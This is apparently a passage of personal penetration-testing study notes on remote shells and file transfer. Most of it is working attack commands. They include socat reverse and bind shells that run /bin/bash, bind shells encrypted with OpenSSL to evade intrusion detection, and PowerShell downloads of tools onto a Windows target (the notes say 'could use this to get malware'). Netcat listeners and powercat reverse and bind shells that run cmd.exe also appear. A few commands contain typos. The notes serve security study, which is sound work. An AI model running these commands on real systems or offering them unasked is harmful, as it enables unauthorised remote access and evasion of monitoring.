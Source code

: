                 linux: `socat TCP4:<ip>:443 EXEC:/bin/bash`
                giving windows a bash shell on linux
            #encrypted bind shells
                will encrypt with ssl, openssl to help `evade IDS` so they can't
                    see what we are transferring.
                linux: `openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt`
                    will make a self signed cert we can use for ssl with `req`
                    and `-x509`. `-nodes` will store the key unencrypted.
                    `-out` saves the cert to a file
                linux: `cat bind_shell.key bind_shell.crt > bind_shell.pem`
                    will combine both key files to a format, `.pem`, that
                    `socat` can use.
                linux: `socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash`
                    `verify=0` disables ssl verification
                windows: `socat - OPENSSL:<ip>:443,verify=0`
                giving windows an encrypted bash shell on the linux box
    #powershell and powercat
        windows task based cmd line shell and scripting language used for admin on
        multiple windows OSs. maintains and `execution policy` that defines
        what scrips can be ran on system. default is restricted.
        `run powershell as admin`
        `Set-ExecutionPolicy Unrestricted` then hit `Y`
        `Get-ExecutionPolicy` to check current policy
            `powershell` can be used to do additional things on tgt without
            having to install more tools on tgt
        also you can upgrade a `cmd` shell to powershell with `powershell`
        #powershell file trans
            linux: `cp /full/path/to/wget.exe /var/www/html/`
                this cps the program `wget` to our apache web server
            linux: `ssytemctl start apache2`
                start our self hosted web server
            windows: `powershell -c "(new-object System.Net.WebClient).DownloadFile('http://<ip>/wget.exe', 'C:\Users\where\we\want\wget.exe')"`
                `-c` will execute the cmd in `""` as if it were input from
                a powershell shell.`new-object` lets us make a WebClient
                class and runs DownloadFile command
                could use this to get malware on windows tgts
        #powershell reverse shell ran from cmd
            linux: `nc -lvnp 443`
                set up nc listener on linux box
            windows: [psReverseShell oneliner](psReverseShell.oneliner)
            gives us cmd shell from windows on our linux box
        #powershell bind shell rna form cmd
            windows: `powershell -c "see kali videos: practical tools > powershell and bind shell 00:52"`
            linux: `nc -nv <ip> 443`
            to get a cmd shell on linux from windows
        #powercat ran from powershell
            nc in powershell
            `. ./powercat.ps1` to run powercat in just this powershell
            instance
            `-help` for commands
            #powercat file trans with powercat running
                linux: `nc -lnvp 443 > recived_file.ps1`
                windows: `powercat -c <ip> -p 443 -i C:\where\it\is\powercat.ps1`
            #powercat reverse shell with powercat running
                linux: `nc -lvp 443`
                windows: `powercat -c <op> -p 443 -e cmd.exe`
            #powercat bind shell with powercat running
                windows: `powercat -l -p 443 -e cmd.exe`
                linux: `nc -nv <ip> 443`
                get a cmd shell from windows running on linux
            #powercat stand alone payloads with powercat running
                linux: `nc -lnvp 443`